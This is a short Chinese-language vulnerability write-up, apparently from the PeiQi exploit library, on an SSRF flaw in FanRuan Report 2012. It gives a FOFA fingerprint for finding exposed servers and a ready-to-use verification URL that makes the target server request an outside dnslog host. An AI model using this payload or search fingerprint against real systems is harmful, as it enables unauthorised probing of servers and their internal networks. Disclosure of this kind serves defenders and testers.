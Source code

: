 ```yaml
---
title: 帆软报表 2012 SSRF漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - OA产品漏洞
 - 帆软OA
---
```


# 帆软报表 2012 SSRF漏洞

## 漏洞描述

帆软报表 2012 存在信息泄露漏洞，通过访问特定的Url获取造成SSRF

## 漏洞影响

> [!NOTE]
>
> 帆软报表 2012

## FOFA

> [!NOTE]
>
> body="down.download?FM_SYS_ID"

## 漏洞复现

漏洞验证Url为

```
/ReportServer?op=resource&resource=0m0m6k.dnslog.cn
```

![](/img/20210924013826066340.png)